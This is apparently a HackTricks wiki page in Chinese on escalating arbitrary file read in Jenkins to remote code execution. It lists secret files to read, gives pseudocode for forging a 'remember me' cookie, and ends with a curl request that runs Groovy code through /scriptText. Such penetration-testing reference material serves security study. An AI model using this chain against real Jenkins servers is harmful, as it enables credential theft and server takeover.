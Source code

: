 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

在这篇博客文章中，可以找到将 Jenkins 中的本地文件包含漏洞转化为 RCE 的绝佳方法：[https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

这是一个 AI 创建的摘要，内容涉及如何利用任意 cookie 来获取 RCE，直到我有时间自己创建摘要为止：

### 攻击前提

* **功能要求：** 必须启用“记住我”（默认设置）。
* **访问级别：** 攻击者需要整体/读取权限。
* **秘密访问：** 能够读取关键文件中的二进制和文本内容。

### 详细利用过程

#### 第一步：数据收集

**用户信息检索**

* 访问每个用户的用户配置和秘密，从 `$JENKINS_HOME/users/*.xml` 收集：
* **用户名**
* **用户种子**
* **时间戳**
* **密码哈希**

**密钥提取**

* 提取用于签名 cookie 的加密密钥：
* **秘密密钥：** `$JENKINS_HOME/secret.key`
* **主密钥：** `$JENKINS_HOME/secrets/master.key`
* **MAC 密钥文件：** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 第二步：Cookie 伪造

**令牌准备**

*   **计算令牌过期时间：**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 当前时间加一小时
```
{% endcode %}
*   **连接令牌数据：**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 密钥解密**

*   **解密 MAC 密钥文件：**

```javascript
key = toAes128Key(masterKey)  // 将主密钥转换为 AES128 密钥格式
decrypted = AES.decrypt(macFile, key)  // 解密 .mac 文件
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**签名计算**

*   **计算 HMAC SHA256：**

```javascript
mac = HmacSHA256(token, macKey)  // 使用令牌和 MAC 密钥计算 HMAC
tokenSignature = bytesToHexString(mac)  // 将 MAC 转换为十六进制字符串
```

**Cookie 编码**

*   **生成最终 Cookie：**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 编码 cookie 数据
```
{% endcode %}

#### 第三步：代码执行

**会话认证**

* **获取 CSRF 和会话令牌：**
* 向 `/crumbIssuer/api/json` 发出请求以获取 `Jenkins-Crumb`。
* 从响应中捕获 `JSESSIONID`，该 ID 将与记住我 cookie 一起使用。

**命令执行请求**

*   **发送带有 Groovy 脚本的 POST 请求：**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 脚本可用于在 Jenkins 环境中执行系统级命令或其他操作。

提供的示例 curl 命令演示了如何使用必要的头和 cookie 向 Jenkins 发出请求，以安全地执行任意代码。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
